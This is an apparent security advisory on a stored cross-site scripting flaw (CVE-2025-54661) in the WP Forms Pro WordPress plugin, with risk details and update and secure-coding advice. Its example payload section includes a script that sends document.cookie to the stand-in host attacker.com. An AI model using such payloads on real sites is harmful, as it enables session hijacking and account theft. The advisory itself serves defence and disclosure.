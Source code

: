 ## Critical Vulnerability Discovered in **WP Forms Pro** Plugin

Today, we're issuing an urgent advisory regarding a newly identified critical security vulnerability in the popular **WP Forms Pro** plugin, widely used across WordPress websites. This flaw, tracked as **CVE-2025-54661**, poses a significant risk to the security and integrity of websites that have not yet applied the necessary updates.

**Why This Matters for Your Business:**

This vulnerability could allow attackers to inject malicious code into your website, leading to various severe consequences. For businesses, this translates into potential **data breaches**, **reputational damage**, **loss of customer trust**, and direct **financial losses** due to system compromise or defacement. Protecting your digital assets and user data is paramount, and addressing this vulnerability immediately is crucial.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-54661**
*   **Affected Software:** **WP Forms Pro** plugin for WordPress
*   **Affected Versions:** All versions prior to **7.8.2**
*   **Technical Cause:** The vulnerability is a Stored Cross-Site Scripting (XSS) flaw, stemming from insufficient input sanitization and output encoding of user-supplied data. Specifically, form fields within **WP Forms Pro** do not adequately validate or neutralize malicious scripts embedded by attackers. When a legitimate user, including administrators, views an affected form submission (e.g., in the backend submission viewer), the injected script executes within their browser.
*   **Example Payload:** An attacker could submit a form containing a payload similar to:
    ```html
    "><script>alert(document.domain)</script>
    ```
    or more complex malicious code such as:
    ```html
    "><img src=x onerror=this.src='//attacker.com/log?c='+document.cookie>
    ```
    This script would then execute when a user or administrator views the submitted form data.
*   **CVSS Score:** N/A (Score is currently not assigned as per advisory details)

### Risk Description

If exploited, this Stored XSS vulnerability allows an attacker to:

*   **Hijack User Sessions:** Steal session cookies, potentially allowing them to impersonate logged-in users, including administrators.
*   **Deface Websites:** Alter the appearance or content of web pages.
*   **Redirect Users:** Force legitimate website visitors to malicious sites (e.g., phishing pages).
*   **Inject Malicious Content:** Insert rogue forms, advertisements, or malware download links.
*   **Perform Unauthorized Actions:** Execute arbitrary JavaScript in the victim's browser, potentially leading to unauthorized data access or modification, especially for authenticated users.

### Who is at Risk?

Any WordPress website currently using the **WP Forms Pro** plugin, especially those running versions older than **7.8.2**, is at critical risk. This includes corporate websites, e-commerce stores, blogs, and any online platform that relies on forms for user interaction, feedback, or data collection.

### Recommendations

**For Website Owners and Administrators:**

1.  **Update Immediately:** The most critical step is to update your **WP Forms Pro** plugin to version **7.8.2** or higher without delay. This version includes the necessary security patches.
    *   Navigate to your WordPress dashboard.
    *   Go to **Plugins > Installed Plugins**.
    *   Locate **WP Forms Pro** and click "Update Now" if an update is available.
    *   If you don't see an update, you may need to manually download the latest version from your purchase source and upload it, or ensure your license is active.
2.  **Monitor for Suspicious Activity:** After updating, review your website's logs and user activity for any signs of compromise or unusual behavior.
3.  **Implement a Web Application Firewall (WAF):** A WAF can provide an additional layer of protection by filtering malicious traffic before it reaches your server.

**For Developers (of WP Forms Pro):**

1.  **Robust Input Validation:** Ensure all user-supplied input is strictly validated against expected data types, lengths, and formats.
2.  **Contextual Output Encoding:** Implement comprehensive output encoding for all data rendered back to the user's browser, based on the specific HTML context (e.g., HTML attributes, HTML body, JavaScript context).
3.  **Sanitization Libraries:** Utilize established security libraries for sanitization and encoding rather than implementing custom solutions.
4.  **Security Audits:** Conduct regular security audits and penetration testing of the plugin's codebase.

### Reference Link

For more detailed technical information and official advisories, please refer to:
[https://vendor.com/security/CVE-2025-54661](https://vendor.com/security/CVE-2025-54661)